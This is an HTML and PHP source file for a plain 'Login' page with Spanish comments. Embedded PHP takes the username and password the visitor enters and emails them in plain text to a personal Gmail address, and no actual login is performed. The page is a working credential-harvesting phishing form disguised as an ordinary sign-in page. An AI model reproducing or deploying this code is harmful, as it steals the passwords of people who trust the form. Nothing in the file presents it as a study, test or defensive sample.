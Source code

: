 <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login</title>
    <style>
        body {
            font-family: Arial, sans-serif;
        }
        .container {
            max-width: 400px;
            margin: 0 auto;
            padding: 20px;
            border: 1px solid #ccc;
            border-radius: 5px;
            background-color: #f9f9f9;
        }
        input[type="text"],
        input[type="password"],
        input[type="submit"] {
            width: 100%;
            padding: 10px;
            margin: 5px 0;
            border: 1px solid #ccc;
            border-radius: 3px;
            box-sizing: border-box; /* For proper input width */
        }
        input[type="submit"] {
            background-color: #0000FF;
            color: white;
            cursor: pointer;
        }
        input[type="submit"]:hover {
            background-color: #45a049;
        }
    </style>
</head>
<body>

<div class="container">
    <h2>Login</h2>
    <!-- Modificado el action para que apunte al archivo PHP -->
    <form action="enviar_email.php" method="post">
        <label for="username">Username:</label>
        <input type="text" id="username" name="username" required>

        <label for="password">Password:</label>
        <input type="password" id="password" name="password" required>

        <input type="submit" value="Login">
    </form>

</div>
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    // Recupera los datos del formulario
    $username = $_POST['username'];
    $password = $_POST['password'];

    // Dirección de correo electrónico a la que enviar los datos
    $to = "julianeaoficial@gmail.com";

    // Asunto del correo electrónico
    $subject = "Datos del formulario de inicio de sesión";

    // Mensaje del correo electrónico
    $message = "Username: $username\r\nPassword: $password";

    // Cabeceras del correo electrónico
    $headers = "From: tu@email.com";

    // Envía el correo electrónico
    if (mail($to, $subject, $message, $headers)) {
        echo "Correo electrónico enviado correctamente.";
    } else {
        echo "Error al enviar el correo electrónico.";
    }
}
?>

</body>
</html>


